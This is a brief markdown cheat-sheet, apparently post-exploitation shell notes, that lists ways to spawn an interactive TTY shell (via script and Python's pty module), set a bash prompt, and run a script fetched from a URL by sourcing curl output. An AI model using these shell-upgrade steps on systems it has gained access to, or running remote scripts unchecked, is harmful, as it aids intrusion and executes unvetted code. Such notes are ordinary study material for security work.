 
- **Spawn TTY shell**: `/usr/bin/script -qc /bin/bash /dev/null`
> Note: This method shows yourself logged in.
  - **to add PWD in bash**: `PS1='\u@\h:\w\$ '`

<br />

- **Spawn Python TTY Shell**: `python -c 'import pty;pty.spawn("/bin/bash")'`

<br />

- **Run script from URL**: `source <(curl -s http://mywebsite.com/myscript.sh)`
